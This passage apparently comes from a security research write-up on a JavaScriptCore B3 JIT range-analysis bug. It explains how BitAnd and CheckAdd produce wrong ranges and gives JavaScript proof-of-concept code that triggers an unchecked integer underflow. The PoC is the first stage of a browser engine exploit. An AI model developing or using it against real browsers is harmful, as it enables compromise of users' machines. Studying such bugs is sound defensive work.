 Let's generate a small PoC to start off with:

```js
function hax(a) {
    let b = a | 0;
    let c = b & 2;
    let d = c + -1;
    return d;
}
```

Okay, so what does this do?

+ First off, we force `b` to be a 32-bit integer, by using a bitwise OR operation. This is necessary to tell the compiler that we are dealing with 32-bit integers, and not floating-point values. This technique is described well by 5aelo in his [amazing blog post](https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html).

+ Next, we generate the vulnerable `BitAnd` opcode, using a bitwise AND operation with a constant.

+ Finally, we generate a `CheckAdd` opcode, this will cause the B3 Strength Reduction phase to call the `rangeFor` function, which will generate an incorrect range. 

Here, the range for the left operand will be `[1, 2]`, when in reality the range of the `BitAnd` operation should be `[0, 2]`.

Ok, now what? How can we cause an overflow by 1?

Why not generate another `CheckAdd` opcode with the result of the previous opcode? Now this will call `rangeFor` again, and generate a range of `[0, 1]` for the left operand, when in reality the range is `[-1, 1]`.

Now our left operand contains a potential negative value that is unaccounted for, and all we have to do is create an operation that underflows it.

Using the right operand as `-0x80000000` (32-bit INT_MIN), the ranges generated for the left and right operands are `[0, 1]` and `[-0x80000000]` respectively. 

```js
let b = a | 0;
let c = b & 2;
let d = c + -1;
let e = d + -0x80000000;
```

Here, `couldOverflowAdd` returns False, as the addition of all combinations of values in these ranges will not overflow. 

This is where the bug is exploitable - the range for the left operand is actually `[-1, 1]`, and `-1 + -0x80000000` can cause an underflow!

We can confirm this assumption by using the following code snippet:

```js
function hax(a) {
    let b = a | 0;
    let c = b & 2;
    let d = c + -1;
    let e = d + -0x80000000;
    return e;
}
function main() {
    for(let i = 0; i < 100000; ++i) {
        hax(2);
    }
}
noInline(hax);
noDFG(main);
noFTL(main);
main();
```
